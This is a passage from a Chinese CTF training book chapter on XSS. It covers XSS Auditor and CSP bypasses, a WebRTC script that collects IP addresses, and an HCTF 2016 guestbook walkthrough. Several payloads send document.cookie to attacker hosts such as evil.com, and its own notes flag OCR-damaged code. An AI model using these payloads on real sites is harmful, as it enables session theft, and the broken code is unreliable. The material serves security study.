```html
<meta charset="ISO-2022-JP"></img src="#" onerror%1B28B=alert(1) />
```

这其实是利用了浏览器处理字符集时产生的漏洞，随着以后字符集的更新，这种漏洞仍然有可能出现。

- 协议理解问题导致的绕过。协议理解问题也会导致Chrome浏览器的XSS Auditor被绕过，因为XSS Auditor在检查加载脚本的路径时有一个比较有趣的地方：如果加载的脚本在自身目录下，并且XSS的输出点在HTML属性中，那么XSS Auditor是不会对其进行拦截的。但是如果检测到了"//"这样的外部链接的话，就会触发Auditor，从而无法加载外部脚本。

结合XSS Auditor对HTTPS协议的错误理解，可以构造如下XSS代码绕过XSS Auditor：

[OCR存疑：原文此处"可以构造如下XSS代码绕过XSS Auditor："后无示例内容，疑为代码或图片缺失。]

- CRLF导致的绕过。Chrome浏览器的XSS Auditor默认是开启的，但如果HTTP响应头中的X-XSS-Protection属性被设置为0，那么Chrome浏览器会关闭XSS Auditor。因此，如果在HTTP响应头中注入CRLF并在新一行中写入X-XSS-Protection:0，那么接下来的XSS代码将不再受到XSS Auditor的拦截。

### 8. 内容安全策略（CSP）绕过

内容安全策略（CSP）是目前最主要的Web安全保护机制之一，这个功能可以有效地帮助开发者降低网站遭受XSS漏洞攻击的可能性。得益于CSP，开发者可以创建并强制部署一些安全管理规则，并规定网站可以获取或加载的内容。

内容安全策略以白名单的机制来管理网站要加载或执行的资源。在网页中，这样的策略是通过HTTP头信息或者meta标签来定义的。需要注意的是，虽然这个策略可以防止攻击者从外部网站跨域加载恶意代码，但是CSP并不能防止数据泄露。目前已经有很多安全研究人员提出了各种各样的技术来绕过内容安全策略，并利用该技术从目标网站中提取出所需数据。

#### (1) CSP配置错误

在实际场景中，常常会出现CSP策略配置错误的情形，错误场景列举如下。

- 策略定义不全或未使用default-src来补全。
- script-src 的源列表包含 unsafe-inline （并且没有使用 noncode 或 hash 策略）或允许 data 伪协议。
- script-src 或 object-src 源列表包含攻击者可控制的部分源地址（文件上传、JSON Hijacking、SOME 攻击），或者包含不安全的库。
- 源地址列表滥用通配符。

在这些场景下很容易利用其错误配置对CSP进行绕过。例如，当包含unsafe-inline关键词但未使用nonce或hash策略时，可直接使用事件属性或script标签执行代码。

#### (2) unsafe-inline下的绕过

CSP策略如下：

```text
default-src 'self';script-src 'self' 'unsafe-inline'
```

除script开启unsafe-inline模式之外，其余资源仅允许加载同域。此时可用的绕过方法有如下几种。

- DNS Prefetch。由于link标签最新的rel属性dns-prefetch尚未被加入CSP实现中，使用如下Payload即可发出一条DNS解析请求，在NS服务器下查看解析日志便可得到如下内容：

```html
<link rel="dns-prefetch" href=[cookie].evil.com">
```

- location.href。大部分的网站跳转还是要依赖前端来进行，所以在CSP中是无法对location.href做出限制的，依此可以衍生出大量的绕过方式：

```html
// bypass 1
<script>location='http://eval.com/cookie.php?cookie='+escape(document.cookie);</script>
// bypass 2
<script>
    var a=document.getElementById("a");
    a.href='http://evil.com/cookie.php?cookie='+escape(document.cookie);
    document.body.appendChild(a);
    a.click();
</script>
// bypass 3
<meta http-equiv="refresh" content="1;url=http://evil.com/cookie.php?data=[cookie]">
```

#### (3) 严苛规则script-src'self'下的绕过

CSP策略如下：

```text
default-src 'self'; script-src 'self';
```

关闭unsafe-inline模式，所有资源仅允许加载同域。此时可使用如下绕过方法：重定向（302跳转）导致的绕过。

在W3C文档中，关于重定向的说明引用如下：

###### 4.2.2.3. Paths and Redirects

To avoid leaking path information cross-origin (as discussed in Egor Homakov’s Using Content-Security-Policy for Evil), the matching algorithm ignores the path component of a source expression if the resource being loaded is the result of a redirect. For example, given a page with an active policy of imgsrc example.com not-example.com/path:

Directly loadinghttps://not-example.com/not-pathwould fail, as it doesn't match the policy.

Directly loadinghttps://example.com/redirectorwould pass,as it matches example.com.

Assuming that https://example.com/redirectordelivered a redirect response pointing to https://not-example.com/not-path, the load would

succeed,as the initial URL matches example.com,and the redirect target matches not-example.com/path if we ignore its path component.

可以看出，如果将script-src设置为某个目录，通过该目录下的302跳转是可以绕过CSP读取到记载其他目录的资源的。

CSP策略如下：

```text
default-src 'self'; script-src http://example.com/a/;
```

可使用下面的Payload进行攻击：

```text
http://example.com/xss.php?input=<script src="http://example.com/a/redirect.php?url=http://example.com/b/evil.js"></script>
```

#### (4) CRLF导致的绕过

在HTTP响应头中注入[CRLF][CRLF]，将CSP头部分割至HTTP响应体中，这样注入的XSS代码便不再受到CSP的影响。

???+ tip "本节要点"
    1. 标签过滤：任意标签（含非法标签）都能构造 XSS；HTML5 新标签（video/details/formaction）常被遗漏；
    2. 事件过滤：遍历全部事件属性找遗漏；javascript 伪协议、details/ontoggle、button/formaction 可绕过；
    3. 关键字过滤：字符串拼接（window['al'+'ert']）、Base64（atob）、多种进制编码、JSFuck、location.*/window.name 外置、with 绕过 "."、throw 绕过 "()"、换行符/"/" 绕过空格、svg 实体编码；
    4. 字符集：UTF-7/US-ASCII 旧漏洞、title 内注入 meta 指定字符集、宽字节、特殊 byte 绕过 Auditor；
    5. 长度限制：window.name/location.* 外置、jQuery $() 工厂函数、分阶段注释拼接；
    6. HttpOnly 绕过：CVE-2012-0053（Apache 超大 Cookie）、phpinfo()、Flash/Java API；
    7. XSS Auditor 绕过：字符集（ISO-2022-JP）、协议理解（自身目录脚本）、CRLF 注入 X-XSS-Protection:0；
    8. CSP 绕过：配置错误、unsafe-inline 下 DNS Prefetch/location.href、script-src 'self' 下 302 重定向、CRLF 分割响应头。
## 四、危害与利用技巧

XSS漏洞利用的基础是脚本，攻击发生的位置是客户端浏览器。也就是说，在浏览器中脚本所能做的事情通过XSS漏洞都可以完成，而不仅仅是窃取Cookie。XSS漏洞可以实现的功能包括但不限于：

- 窃取用户Cookie信息，伪造用户身份；
- 与浏览器DOM对象进行交互，执行受害者所有可以执行的操作；
- 获取网页源码：
- 发起HTTP请求；
- 使用HTML5 Geolocation API获取地理位置信息；
- 使用WebRTC API获取网络信息；
- 发起HTTP请求对内网主机进行扫描，对存在漏洞的主机进行攻击；

如下代码展示了如何使用WebRTC API获取网络信息：

```js
//获取与账户关联的IP地址
function getIPs(callback){
    var ip_dups = {};
    //兼容Firefox和Chrome
    var RTCPeerConnection = window.RTCPeerConnection
        || window.mozRTCPeerConnection
        || window.webkitRTCPeerConnection;
    var useWebKit = !window.webkitRTCPeerConnection;
    //使用iframe绕过webrtc的拦截
    if(!RTCPeerConnection){
        //注意：你需要在script标签上方的页面中有一个iframe标签，
        比如
        //<iframe id="iframe" sandbox="allow-same-origin"
        style="display: none"></iframe>
        //<script>...这里调用getIPs...
        var win = iframe.contentWindow;
        RTCPeerConnection = win.RTCPeerConnection
        || win.mozRTCPeerConnection
        || win.webkitRTCPeerConnection;
        useWebKit = !win.webkitRTCPeerConnection;
    }
    //数据连接的最低要求
    var mediaConstraints = {
        optional: [ { RtpDataChannels: true } ]
    };
    var servers = {iceServers: [ {urls:
        "stun:stun.services.mozilla.com" } ];
    //构造一个RTCPeerConnection对象
    var pc = new RTCPeerConnection(servers,
        mediaConstraints);
    function handleCandidate(candidate){
        //仅匹配IP地址
        var ip_regex = /([0-9]{1,3} $ \backslash.[0-9]{1,3} ${3}|[a-
        f0-9]{1,4}(:[a-f0-9]{1,4}){7})/
        var ip_addr = ip_regex.exec(candidate)[1];
        //删除重复项
        if(ip_dups[ip_addr] === undefined)
            callback(ip_addr);
        ip_dups[ip_addr] = true;
    }
    //监听candidate事件
    pc.onicecandidate = function(ice){
        //跳过非candidate事件
        if(ice.candidate)
            handleCandidate(ice.candidate.candidate);
        }
    }
}

};
//创建伪造的数据通道
pc.createDataChannel("");
pc.createOffer(function(result){
    pc.setLocalDescription(result, function() {}},
    function() {});
}, function() {});
//一秒后执行
setTimeout(function() {
    //从本地描述中读取candidate信息
    var lines = pc.localDescription.sdp.split('n');
    lines.forEach(function(line){
        if(line.indexOf('a=candidate:') === 0)
            handleCandidate(line);
    });
}, 1000);
}
//测试
getIPs(function(ip){document.write(ip + '<br>');});
```

[OCR存疑：上述 WebRTC 示例代码存在多处 OCR 破损（IP 正则、`split('n')` 疑为 `split('\n')`、多余的花括号等），按原文保留未作修改。]

访问结果如图3-6所示，成功显示出了IP信息。

{ width="100%" }

<div style="text-align: center;">图3-6 WebRTC获取IP地址</div>

这里再推荐一个非常好用的开源XSS漏洞利用平台：BeEF（The Browser Exploitation Framework），项目地址为https://github.com/beefproject/beef/。该平台中包含大量XSS代码，可供参考和学习。

???+ tip "本节要点"
    1. XSS 的能力边界 = 浏览器脚本能力：窃取 Cookie、操作 DOM、获取源码、发请求、Geolocation、WebRTC 获取 IP、内网扫描；
    2. WebRTC 通过 RTCPeerConnection 的 candidate 事件提取本机/内网 IP；
    3. BeEF 是开源 XSS 利用平台，含大量攻击代码可供学习。
## 五、实例

HCTF 2016中有一道XSS漏洞相关的题目：guestbook。该题目代码中的过滤代码如下：

```php
function filter($string)
{
    $escape = array('\\', '\\\\');
    $escape = '/'.implode('|', $escape).'/';
    $string = preg_replace($escape, '_', $string);
    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/'.implode('|', $safe).'/i';
    $string = preg_replace($safe, 'hacker', $string);
    $xsssafe = array('img', 'script', 'on', 'svg', 'link');
    $xsssafe = '/'.implode('|', $xsssafe).'/i';
    return preg_replace($xsssafe, "", $string);
}
```

可以看到，这段代码中其实只有很少的过滤，而且都是单层的，只需要复写2次就可以绕过，例如：

```text
scrsscriptipt
```

这个题目考查的关键点在于CSP的绕过，CSP规则如下：

```text
default-src 'self'; script-src 'self' 'unsafe-inline'; font-src 'self' fonts.gstatic.com; style-src 'self' 'unsafe-inline'; img-src 'self'
```

这段CSP规则中，由于开启了unsafe-inline，因此可以使用前文提到过的CSP绕过的方法进行绕过，例如：

```html
<scrscriptipt>locatioonn.href="http://eval.com/xss/cookie.php?cookie="+escape (document.cookie);</scrscriptcript>
```

上面代码中的locatioonn.href并非笔误，而是因为过滤函数中过滤了on，所以此处的locatioonn经过过滤后就变成了正确的location。另外还可以用下面的方法进行绕过：

```html
<scscriptript>var l =
document.getElementById("listscriptnk");
l.setAttribute("rel", "prefetch");l.setAttribute("href",
"//evil.com:2333/" + document.cookie);
document.head.appendChild(l);</scscriptript>
```

???+ tip "本节要点"
    1. 单层过滤可用"复写"绕过：scrscriptipt 过滤 script 后剩 script，且需考虑过滤后仍被过滤的情况（scrsscriptipt → 过滤 → script）；
    2. 关键字过滤上下文敏感：locatioonn 过滤 on 后变成合法 location；
    3. unsafe-inline 开启的 CSP 可配合复写标签 + location.href / dns-prefetch 外带 Cookie。
## 本章思维导图



## 易错点

!!! warning "易错点"
    1. ==XSS 不止是窃取 Cookie==——浏览器脚本能做的（DOM 操作、Geolocation、WebRTC 取内网 IP、内网扫描）它都能做。
    2. ==过滤不是一次性的==：单层非递归过滤可用复写绕过（scrscriptipt）；关键字过滤时注意"过滤后拼出的新关键字"（locatioonn→location）。
    3. ==HttpOnly 不等于绝对安全==：CVE-2012-0053、phpinfo()、Flash/Java API 仍可泄露。
    4. ==CSP 防止加载恶意代码但不防数据泄露==，unsafe-inline、可控制的源、302 重定向、CRLF 都可能让它形同虚设。
    5. ==JSFuck 等编码混淆后的代码不可肉眼判读==，遇到只允许少量字符的输入点优先考虑。
??? note "自测题"
    **基础**
    1. XSS 的三种类型分别是什么？DOM XSS 与前两者的本质区别是什么？
    2. 反射型 XSS 的原型代码中，echo 语句做了什么导致漏洞？
    3. Payload 输出在 HTML 属性中时，如何注入新属性或新标签？
    4. 过滤危险标签（如 script）为什么防不住 XSS？举一个例子。
    5. 字符串拼接混淆 alert 的两种方式是什么？
    6. CSP 的 unsafe-inline 配置有什么风险？
    7. 存储型 XSS 与反射型 XSS 的区别是什么？
??? note "自测题（进阶）"
    8. 过滤了"."时如何调用 document.cookie？过滤了"()"时如何传参？
    9. HttpOnly Cookie 有哪三种已知的获取方式？
    10. HCTF 2016 guestbook 中 scrsscriptipt 为什么能绕过过滤？locatioonn.href 为什么不是笔误？
??? note "参考答案"
    1. 反射型、存储型、DOM 型；DOM XSS 不需要服务端解析响应的直接参与，由浏览器端 DOM 解析触发。
    2. echo 将未经过滤的客户端输入原样输出到 HTTP 响应中，浏览器解析执行其中的脚本。
    3. 闭合 value 属性后注入新属性（如 onclick），或闭合标签后注入新标签（如 script）。
    4. 任何标签无论是否合法都可挂事件属性（如 `<not_real_tag onclick=...>`），且属性/JS 上下文闭合拼接无需新标签。
    5. `window['al'+'ert'](/xss/)` 与 `window[atob("YWxl"+"cnQ=")](/xss/)`。
    6. 允许内联脚本，攻击者可直接用事件属性或 script 标签执行代码，CSP 形同虚设。
    7. 存储型的 XSS 代码会存入服务端数据库，其他用户访问时触发，无需重复提交。
    8. 用 with 关键字：`with (document) alert(cookie)`；用错误处理函数 + throw：`window.onerror=alert; throw 1;`。
    9. CVE-2012-0053（Apache 超大 Cookie 触发 400 页面泄露）、phpinfo() 输出请求 Cookie、Flash/Java API 获取。
    10. 过滤是单层非递归的：scrsscriptipt 过滤 script 后剩 script；locatioonn 过滤 on 后变成合法的 location。
## 参考资料

- 原书：CTF特训营（FlappyPig战队 著，机械工业出版社 2020）。
- HTML5 Security Cheatsheet：http://html5sec.org/
- XSSEE 编码工具：https://evilcos.me/lab/xssee/
- 特殊字符测试结果：http://10.cm/encodings/
- CVE-2012-0053 源码：https://www.exploitdb.com/exploits/18442/
- BeEF 项目：https://github.com/beefproject/beef/

*来源：CTF特训营（FlappyPig战队 著，机械工业出版社 2020），OCR 全内容保留整理版。*
